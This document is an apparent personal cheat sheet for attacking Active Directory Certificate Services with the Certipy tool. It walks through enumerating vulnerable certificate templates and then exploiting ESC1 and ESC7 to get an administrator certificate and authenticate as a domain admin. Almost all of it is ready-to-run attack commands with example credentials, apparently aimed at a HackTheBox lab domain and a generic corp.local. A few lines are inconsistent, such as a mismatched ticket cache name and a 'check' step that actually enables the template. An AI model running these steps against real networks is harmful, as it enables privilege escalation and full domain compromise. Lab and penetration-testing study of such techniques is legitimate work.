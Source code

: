 ```
pip3 install .
```

## Enumeration 
```
certipy-ad find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -stdout
certipy-ad find -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -dc-ip 10.10.11.202 -vulnerable -enabled -stdout

getTGT.py sequel.htb/Ryan.Cooper:horse
export KRB5CCNAME=khal.drogo.ccache 
certipy-ad find -u Ryan.Cooper@sequel.htb  -k -no-pass  -vulnerable -stdout -ns 10.127.14.70 -target COB3DC.sequel.htb  -debug
```

## Exploitation 
### ESC1
```
certipy-ad req -u Ryan.Cooper@sequel.htb -p 'NuclearMosquito3' -target dc.sequel.htb -template UserAuthentication -ca sequel-DC-CA -upn Administrator@sequel.htb 
sudo ntpdate 10.10.11.202
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```
### ESC7
**Perquisites**
- ManageCA permission

**TODO**
- Grant Manage Certificates permission with ManageCA
- Enable SubCA template (which is vulnerable to ESC1)
- Exploit

**Process**

Grant yourself the Manage Certificates access right by adding your user as a new officer.
```
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
```
Enable SubCA template (enabled by default)
```
#Check if it is enabled
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
#Enable it
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
```
Request a certificate based on the SubCA template (which should failed a provide request ID)
```
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template SubCA -upn administrator@corp.local
```
Issue the failed certificate request 
```
certipy ca -ca 'corp-DC-CA' -issue-request 785 -username john@corp.local -password Passw0rd
```
Retrieve the issued certificate 
```
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
```
Authenticate with the certificate
```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236 
```